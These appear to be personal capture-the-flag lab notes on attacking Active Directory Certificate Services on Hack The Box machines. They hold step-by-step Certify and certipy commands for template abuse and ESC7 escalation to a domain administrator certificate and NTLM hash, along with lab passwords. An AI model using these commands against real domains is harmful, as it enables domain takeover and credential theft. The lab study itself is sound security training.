#### AD CS
- upload Certify.exe
```
./certify.exe find /vulnerable
```
- Template Name: UserAuthentication
- msPKI-Certificate-Name-Flag: ENROLLE SUPPLIES SUBJECT
- Permissions: Enrollment Rights includes Domain Users
	- must be logged in as domain user
```
./certify.exe request /ca:dc.sequel.htb\sequel-DC-CA /template:UserAuthentication /altname:Administrator
```
- should return RSA Private Key and Certificate
	- copy/paste into file on kali named "cert.pem"
- on kali run:
```
openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
```
- password is blank
- then run:
```
certipy auth -pfx cert.pfx -dc-ip 10.129.121.20 -username Administrator -domain sequel.htb
```
- should return administrator ntlm hash
	- if not, run:
		- `ntpdate 10.129.121.20`
			- may need to run multiple times, until "no skew", but might work with just "no leap"; keep trying and running certipy command right after

Can also run ADCS remotely with certipy
```
certipy find -dc-ip 10.129.42.194 -ns 10.129.42.194 -u raven@manager.htb -p 'R4v3nBe5tD3veloP3r!123' -vulnerable -stdout
```
- bottom of output will list vulnerabilities like ESC7
##### ESC7:
```
certipy ca -ca manager-DC01-CA -add-officer raven -username raven@manager.htb -p 'R4v3nBe5tD3veloP3r!123'
```
- adds user Raven to group that can manage CA permissions
```
certipy find -dc-ip 10.129.42.194 -ns 10.129.42.194 -u raven@manager.htb -p 'R4v3nBe5tD3veloP3r!123' -vulnerable -stdout
```
- same command as above, run to confirm user was added to group successfully (look at ManageCertificates row for user added)
```
certipy req -ca manager-DC01-CA -target dc01.manager.htb -template SubCA -upn administrator@manager.htb -username raven@manager.htb -p 'R4v3nBe5tD3veloP3r!123'
```
- command is supposed to fail, but saves private key (hit `y`)
```
certipy ca -ca manager-DC01-CA -issue-request 13 -username raven@manager.htb -p 'R4v3nBe5tD3veloP3r!123'
```
- should successfully issue certificate
	- if it fails go back to previous command to add Raven to group (as this resets)
```
certipy req -ca manager-DC01-CA -target dc01.manager.htb -retrieve 13 -username raven@manager.htb -p 'R4v3nBe5tD3veloP3r!123'
```
- retrieves the issued certificate and saves as administrator.pfx
```
certipy auth -pfx administrator.pfx -dc-ip manager.htb
```